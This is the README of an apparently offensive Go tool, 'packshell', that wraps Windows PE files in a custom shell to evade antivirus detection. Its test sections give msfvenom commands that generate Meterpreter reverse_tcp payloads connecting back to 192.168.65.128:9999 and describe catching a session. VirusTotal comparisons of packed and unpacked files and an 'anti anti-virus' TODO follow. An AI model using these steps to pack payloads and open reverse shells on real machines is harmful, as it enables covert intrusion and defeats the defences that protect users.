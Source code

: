 # packshell
A tool create a new file using a custom shell and a source pe files

use PE .rsrc section

# Usage

1. download dependencies

```shell
go mod download
```

2. complie the shell.go use this command

```shell
go build -o shell.exe .\cmd\shell.go
```

3. complie the packer.go use this command

```shell
go build -o packer.exe .\cmd\packer.go
```

4. move your pe file which you want execute into this project's root directory

5. use this command to create new file which with a shell

```
.\packer <your pe file> <output file>
```

6. execute the output file



# Detail

![detail](./images/detail.jpg)

# Test

## logic test-msf exe

- use msfvenom create a test pe file

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.65.128 lport=9999 -f exe -o win_normal.exe
```

- msf create a listener

![msf](./images/msf.png)

- use our project packshell create a new file

```
go build .\cmd\shell.go
go build .\cmd\packer.go
packer.exe win_normal.exe win_pack.exe
```

- execute new file and msf get a session

![session](./images/session-exe.png)



## logic test-msf shellcode

- use msfvenom create a test shellcode

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.65.128 lport=9999 -f golang -o golang_exp.txt
```

- msf create a listener

  ![image-20230607182327184](./images/msf.png)

- use golang shellcode loader create a exe file
- use our project packshell create a new file

```
go build .\cmd\shell.go
go build .\cmd\packer.go
packer.exe win_sc_normal.exe win_sc_pack.exe
```

- execute new file and msf get a session

![image-20230607182557515](./images/session-sc.png)

## anti-virus test

### msf exe

- unpack file in virustotal

![unpack](./images/unpack-exe.png)

- packed file in virustotal

![packed](./images/packed-exe.png)

### msf shellcode

- unpack file in virustotal

![image-20230607182947156](./images/unpack-sc.png)

- packed file in virustotal

![image-20230607183021362](./images/packed-sc.png)

# TODO

- [ ] anti anti-virus
